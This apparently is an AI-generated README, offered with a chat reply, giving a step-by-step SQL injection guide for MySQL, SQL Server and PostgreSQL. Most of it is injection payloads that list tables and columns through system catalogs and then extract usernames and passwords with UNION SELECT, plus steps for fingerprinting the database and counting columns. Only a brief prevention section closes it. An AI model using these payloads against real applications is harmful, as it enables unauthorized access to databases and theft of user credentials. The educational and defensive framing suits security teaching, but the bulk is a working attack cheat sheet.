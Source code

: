 Here's a structured and beautifully formatted `README.md` for your SQL Injection guide with section-wise breakdowns:

```markdown
# SQL Injection Attack - Listing Database Contents on Non-Oracle Databases

This README provides a step-by-step guide on how to perform **SQL injection attacks** to list database contents, such as tables and columns, on **non-Oracle databases** (MySQL, SQL Server, PostgreSQL). It also includes preventive measures to protect against such attacks.

---

## Table of Contents
1. [Introduction](#introduction)
2. [SQL Injection in MySQL](#sql-injection-in-mysql)
   - [Listing Tables](#listing-tables)
   - [Listing Columns in a Table](#listing-columns-in-a-table)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table)
3. [SQL Injection in SQL Server](#sql-injection-in-sql-server)
   - [Listing Tables](#listing-tables-1)
   - [Listing Columns in a Table](#listing-columns-in-a-table-1)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table-1)
4. [SQL Injection in PostgreSQL](#sql-injection-in-postgresql)
   - [Listing Tables](#listing-tables-2)
   - [Listing Columns in a Table](#listing-columns-in-a-table-2)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table-2)
5. [General SQL Injection Steps](#general-sql-injection-steps)
6. [Prevention](#prevention)

---

## Introduction

SQL Injection is one of the most common web vulnerabilities that allows attackers to interfere with the queries an application makes to its database. This guide covers SQL Injection techniques specifically for **non-Oracle databases** such as **MySQL**, **SQL Server**, and **PostgreSQL**, with methods to list tables, columns, and retrieve data.

---

## SQL Injection in MySQL

In MySQL, metadata about the database (e.g., tables and columns) can be accessed through the **`information_schema`** database.

### Listing Tables

To list all tables in the current database:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = DATABASE() --
```

**Explanation**:
- **`information_schema.tables`**: Contains metadata about all tables in all databases.
- **`table_schema = DATABASE()`**: Filters tables by the current database.

### Listing Columns in a Table

To list columns from a specific table (e.g., `users` table):

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' --
```

**Explanation**:
- **`information_schema.columns`**: Contains metadata about columns in each table.
- **`table_name = 'users'`**: Filters by the `users` table.

### Retrieving Data from a Table

Once you know the table and column names, you can retrieve data:

```sql
' UNION SELECT username, password FROM users --
```

---

## SQL Injection in SQL Server

In SQL Server, metadata can be retrieved using the **`sys.tables`** and **`sys.columns`** system views.

### Listing Tables

To list all tables in the current database:

```sql
' UNION SELECT name, NULL FROM sys.tables --
```

**Explanation**:
- **`sys.tables`**: Contains information about all tables in the current database.

### Listing Columns in a Table

To list columns from a specific table (e.g., `users` table):

```sql
' UNION SELECT name, NULL FROM sys.columns WHERE object_id = OBJECT_ID('users') --
```

**Explanation**:
- **`sys.columns`**: Contains metadata about the columns.
- **`OBJECT_ID('users')`**: Retrieves the ID of the `users` table.

### Retrieving Data from a Table

To extract data from the `users` table:

```sql
' UNION SELECT username, password FROM users --
```

---

## SQL Injection in PostgreSQL

In PostgreSQL, you can use the **`pg_catalog`** schema to query metadata.

### Listing Tables

To list all tables in the current database:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' --
```

**Explanation**:
- **`information_schema.tables`**: Contains metadata about tables.
- **`table_schema = 'public'`**: Restricts the query to the `public` schema.

### Listing Columns in a Table

To list columns from a specific table (e.g., `users` table):

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' --
```

### Retrieving Data from a Table

To retrieve data from the `users` table:

```sql
' UNION SELECT username, password FROM users --
```

---

## General SQL Injection Steps

1. **Identify the Database Type**:
   - Use error messages or version-retrieval techniques like `@@VERSION` (SQL Server) or `VERSION()` (MySQL) to determine the database type.

2. **Determine the Number of Columns**:
   - Use `ORDER BY` or error messages to identify the number of columns in the original query.
     - Example: `' ORDER BY 1 --`, `' ORDER BY 2 --`, etc.

3. **Use `UNION SELECT` to Retrieve Metadata**:
   - List all tables: 
     ```sql
     ' UNION SELECT table_name, NULL FROM information_schema.tables
     ```
   - List columns for a specific table:
     ```sql
     ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'
     ```

4. **Retrieve Sensitive Data**:
   - Example: Retrieve data from the `users` table:
     ```sql
     ' UNION SELECT username, password FROM users --
     ```

---

## Prevention

To **protect against SQL Injection**, use the following best practices:

1. **Use Parameterized Queries / Prepared Statements**:
   - These queries treat user input as data rather than part of the SQL command, preventing SQL injection.
   
2. **Input Validation**:
   - Validate all user inputs, ensuring they conform to expected formats.
   - Reject any input containing SQL-specific characters (e.g., `'`, `--`, `;`).

3. **Use the Least Privilege Principle**:
   - Ensure that database user accounts used by the application have the least amount of access necessary.

4. **Implement Web Application Firewalls (WAFs)**:
   - Use WAFs to detect and block SQL Injection attacks.

5. **Error Handling**:
   - Avoid exposing detailed error messages to users, as they may reveal sensitive information about the database.

---

## Conclusion

SQL Injection is a powerful attack technique, and understanding how it works is critical to securing web applications. Always follow best practices to prevent such attacks and ensure the security of your database and applications.

---

### Contributors

- **Md. Khairul Islam**: Author
```

### Explanation:
- **Table of Contents**: Provides an easy-to-navigate structure for the README.
- **Sections**: The README is split into sections for MySQL, SQL Server, PostgreSQL, general steps, and prevention.
- **Code Snippets**: Each code snippet is clearly formatted in code blocks for easy reading and copying.
- **Prevention Measures**: Includes a section dedicated to prevention to emphasize the importance of security.

Feel free to copy and use this `README.md` file!